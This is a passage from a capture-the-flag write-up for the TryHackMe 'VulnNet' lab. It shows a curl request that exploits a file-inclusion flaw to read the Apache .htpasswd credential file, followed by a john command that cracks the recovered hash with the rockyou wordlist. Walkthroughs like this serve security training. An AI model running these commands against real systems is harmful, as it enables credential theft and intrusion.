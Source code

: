 ![screenshot14](../assets/images/vulnnet/screenshot14.png)

Apache2 configuration files are normally stored in **/etc/apache2/**. Let's see if we can read the .htpasswd file:

```
curl http://vulnnet.thm/index.php?referer=/etc/apache2/.htpasswd
```

![screenshot15](../assets/images/vulnnet/screenshot15.png)

We managed to obtain a set of credentials! The password is hashed, but we can easily crack it using `john`.

```
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

